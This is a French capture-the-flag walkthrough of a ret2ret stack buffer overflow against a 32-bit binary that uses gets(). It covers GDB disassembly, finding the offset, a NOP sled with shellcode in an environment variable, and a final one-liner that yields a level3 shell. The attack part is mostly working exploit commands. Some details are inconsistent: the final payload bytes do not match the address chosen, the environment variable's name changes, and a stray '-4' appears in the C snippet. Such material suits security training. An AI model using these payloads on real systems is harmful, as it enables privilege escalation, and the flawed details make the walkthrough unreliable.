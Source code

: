# Level2 : RET2RET

Première étape — tester le programme

```bash
$ ./level2
a
a
```

Le programme affiche l'entrée.

Démarrons-le dans GDB

```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

`main` appelle une fonction `p`.

```gdb
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

On voit un appel à `gets()`. `gets()` est dangereux car il permet un débordement de tampon (buffer overflow).

---

### Trouver l'offset pour écraser EIP

On va utiliser un motif alphabétique :

```gdb
(gdb) r
Starting program: /home/user/level2/level2
AAAABBBBCCCC...zzz
AAAABBBBCCCC...zzz

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

Les 4 octets de l'adresse correspondent à l'hex de 'U'. On remplace ces 4 'U' par BBBB pour vérifier si l'offset est correct.

Test de vérification :

```bash
$ python -c 'print "a"*80+"BBBB"' > /tmp/payload
(gdb) r < /tmp/payload
Starting program: /home/user/level2/level2 < /tmp/payload
...BBBB...

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

L'offset pour écraser EIP est donc **80 octets**.

---

### Contournement du contrôle anti-stack

Le binaire vérifie si l'adresse écrasée pointe vers la pile et quitte si c'est le cas :

```c
if ((check & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", check);-4
    exit(1);
}
```

```
0x080484fb <+39>:	and    eax,0xb0000000
0x08048500 <+44>:	cmp    eax,0xb0000000
0x08048505 <+49>:	jne    0x8048527 <p+83>
```

Pour contourner ça, on place la charge utile (payload) dans une variable d'environnement. Puis on utilise la technique **ret2ret** :

* écraser EIP par l'adresse d'une instruction `ret` (pour dépiler et passer à l'adresse suivante),
* placer ensuite l'adresse de la zone NOPsled présente dans l'environnement.

Exemple de génération du payload d'environnement (NOPsled + shellcode) :

```bash
export payload=$(python -c 'print "\x90"*1000+"\x31\xc0\x31\xdb...\xcd\x80"')
```

---

### Récupérer l'adresse de la variable d'environnement dans GDB

Mettre un breakpoint avant le `ret` final :

```gdb
(gdb) b *main+12
Breakpoint 1 at 0x804854b
(gdb) r
Starting program: ./level2
...
Breakpoint 1, 0x0804854b in main ()
```

Afficher `environ` pour trouver l'adresse :

```gdb
(gdb) x/200xs environ
...
0xbffffb9a: "exploit=\220\220\220\220..."
```

Ici l'adresse est `0xbffffb9a`.

Examiner la mémoire autour pour choisir une adresse dans le NOPsled :

```gdb
(gdb) x/200xg 0xbffffb9a
...
0xbffffc7c:	0x9090909090909090	0x9090909090909090
0xbffffc8c:	0x9090909090909090	0x9090909090909090
0xbffffc9c:	0x9090909090909090	0x9090909090909090
0xbffffcac:	0x9090909090909090	0x9090909090909090
0xbffffcbc:	0x9090909090909090	0x9090909090909090
0xbffffccc:	0x9090909090909090	0x9090909090909090
0xbffffcdc:	0x9090909090909090	0x9090909090909090
0xbffffcec:	0x9090909090909090	0x9090909090909090
0xbffffcfc:	0x9090909090909090	0x9090909090909090
0xbffffd0c:	0x9090909090909090	0x9090909090909090
0xbffffd1c:	0x9090909090909090	0x9090909090909090
0xbffffd2c:	0x9090909090909090	0x9090909090909090
...
```

Choisissons `0xbffffcec` (un emplacement dans le NOPsled).

---

### Trouver une adresse `ret`

On peut réutiliser l'instruction `ret` de `main` :

```gdb
(gdb) disas main
...
0x0804854b <+12>:	ret
```

Adresse : `0x0804854b`.

---

### Construire l'exploit

Formation du payload : `80 bytes` + `adress_ret` + `adress_env`

Exécution:

```bash
$ python -c 'print "a"*80+"\x4b\x85\x04\x08"+"\xec\xff\xff\xbf"' |  ./level2
...
whoami	
level3
```

et OP OP OP, on obtient un shell.

###  sources

``NOPsled``: https://www.youtube.com/watch?v=1S0aBV-Waeo&t=818s

``shellcode``: http://shell-storm.org/shellcode/files/shellcode-219.html

``code op``: http://ref.x86asm.net/coder.html


